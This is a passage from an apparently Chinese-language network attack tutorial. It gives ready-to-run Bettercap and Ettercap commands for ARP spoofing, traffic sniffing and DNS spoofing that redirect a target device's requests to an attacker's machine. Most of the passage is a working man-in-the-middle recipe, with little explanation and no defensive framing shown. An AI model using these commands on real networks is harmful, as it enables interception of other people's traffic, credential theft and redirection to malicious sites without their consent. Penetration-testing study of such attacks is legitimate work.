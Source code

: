 	```shell
	sudo apt update
	sudo apt install bettercap
	```

1. 启动 Bettercap：

	```shell
	sudo bettercap -iface wlan0
	```

1. 执行 ARP 欺骗：

	```shell
	net.probe on       # 探测内网设备set arp.spoof.targets 192.168.10.1  # 设置目标设备arp.spoof on       # 开启 ARP 欺骗net.sniff on       # 开启数据嗅探
	```


‍


### 5.1.2 使用 `Ettercap`​

1. 启动 Ettercap：

	```shell
	sudo ettercap -G
	```

1. 选择网络接口（如 wlan0）。
1. 扫描并选择目标：
	- 扫描目标网段（`192.168.10.0/24`​），将目标设备和网关加入攻击列表。
1. 启动 ARP 欺骗：
	- ​`Mitm > ARP Poisoning > Sniff Remote Connections`​

### 5.2 DNS欺骗


通过 DNS 欺骗将目标设备的请求重定向到攻击者指定的地址。


### 5.2.1 使用 Bettercap 的 DNS Spoof 模块

1. 配置 DNS 欺骗：

	```shell
	set dns.spoof.domains example.com  # 替换为你想拦截的域名set dns.spoof.address 192.168.10.1 # 替换为伪造的 IP 地址dns.spoof on
	```

1. 生效后，目标访问 `example.com`​ 会被重定向到攻击者设备。

‍


‍

